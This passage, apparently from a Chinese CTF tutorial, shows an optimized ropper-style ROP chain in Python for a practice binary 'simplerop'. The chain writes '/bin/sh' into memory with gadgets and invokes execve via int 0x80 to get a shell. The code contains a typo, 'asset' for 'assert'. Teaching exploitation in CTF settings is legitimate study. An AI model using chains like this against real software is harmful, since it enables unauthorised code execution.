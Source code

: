 而当观察 ropper 等工具自动生成的 ropchain 时，会发现有很多步骤是很繁琐的，可以做出很多优化，给一个优化后的例子

```python
#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # ./simplerop
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

pop_edx_ecx_ebx = 0x0806e850

rop = ''

# write /bin/sh\x00 to 0x08048000 + 0x000a3060
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
#  rop += '//bi'
rop += '/bin'
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3060)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += '/sh\x00'
rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
rop += rebase_0(0x000a3064)
rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
print "[+]write /bin/sh\x00 to 0x08048000 + 0x000a3060"

#  rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
#  rop += p(0x00000000)
#  rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
#  rop += rebase_0(0x000a3068)
#  rop += rebase_0(0x0005215d) # 0x0809a15d: mov dword ptr [edx], eax; ret; 
#  rop += rebase_0(0x000001c9) # 0x080481c9: pop ebx; ret; 
#  rop += rebase_0(0x000a3060)
#  rop += rebase_0(0x0009e910) # 0x080e6910: pop ecx; push cs; or al, 0x41; ret; 
#  rop += rebase_0(0x000a3068)
#  rop += rebase_0(0x0002682a) # 0x0806e82a: pop edx; ret; 
#  rop += rebase_0(0x000a3068)

# set ebx -> /bin/sh\x00, ecx = edx = 0
rop += pack('I', pop_edx_ecx_ebx)
rop += p(0)
rop += p(0)
rop += rebase_0(0x000a3060)
print "[+]set ebx -> /bin/sh\x00, ecx = edx = 0"

rop += rebase_0(0x00072e06) # 0x080bae06: pop eax; ret; 
rop += p(0x0000000b)
rop += rebase_0(0x00026ef0) # 0x0806eef0: int 0x80; ret; 
asset len(rop) <= 100 - 32
```
